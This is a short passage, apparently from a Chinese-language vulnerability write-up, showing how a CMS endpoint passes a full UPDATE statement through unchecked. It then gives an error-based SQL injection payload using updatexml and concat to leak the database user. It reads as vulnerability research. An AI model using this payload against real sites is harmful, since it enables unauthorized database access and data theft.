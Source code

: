 抓包传入一句测试的语句：

```plain
update of_cms_link set link_name='panda' where link_id = 4
```

[![](assets/1698897408-72f3a072a3da4d7c163018d76563f28e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129160513-f896ac06-127e-1.png)

查看 SQL 执行记录：

[![](assets/1698897408-2856f7fbe9e2f6036778aba9ebaaa831.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129160531-03343994-127f-1.png)

完完全全的可以控制 update 型的 SQL 注入语句，因此可以利用以下语句进行注入：

```plain
update of_cms_link set link_name=updatexml(1,concat(0x7e,(user())),0) where link_id = 4
```
